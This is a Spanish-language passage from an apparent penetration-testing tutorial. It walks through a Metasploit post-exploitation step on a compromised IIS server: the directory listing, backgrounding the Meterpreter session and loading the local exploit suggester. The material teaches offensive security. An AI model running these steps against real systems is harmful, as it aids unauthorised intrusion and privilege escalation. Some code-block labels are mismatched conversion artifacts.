 ```mathematica
dir
 Volume en la unidad C no tiene etiqueta.
 Número de serie de volumen es 246C-D7FE

 Directorio de c:\Inetpub

04/12/2017  05:17 PM    <DIR>          .
04/12/2017  05:17 PM    <DIR>          ..
04/12/2017  05:16 PM    <DIR>          AdminScripts
09/03/2020  01:10 PM    <DIR>          wwwroot
               0 Archivo(s)              0 bytes
               4 Directorio(s)  18,125,160,448 bytes libres
```

```plaintext
c:\Inetpub>cd AdminScripts
```

```bash
cd AdminScripts
Acceso denegado.
```

Podemos decidir fácilmente ejecutar el módulo de sugerencia de exploits locales, adjuntándolo a la sesión activa de Meterpreter. Para hacerlo, enviamos la sesión de Meterpreter actual al segundo plano, buscamos el módulo que necesitamos y configuramos la opción `SESSION` al número de índice para la sesión de Meterpreter, vinculando el módulo a ella.

### MSF - Manejo de Sesiones

```plaintext
meterpreter > bg
```

```css
¿Sesión de fondo 1? [y/N]  y
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > search local_exploit_suggester
```

```bash
#  Nombre                                      Fecha de Divulgación  Rango    Comprobación  Descripción
   -  ----                                       ---------------------  ----     -----------  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Sugeridor de Exploits Locales Multi Recon
```

```plaintext
msf6 exploit(windows/iis/iis_webdav_upload_asp) > use 0
```

```plaintext
msf6 post(multi/recon/local_exploit_suggester) > show options
```
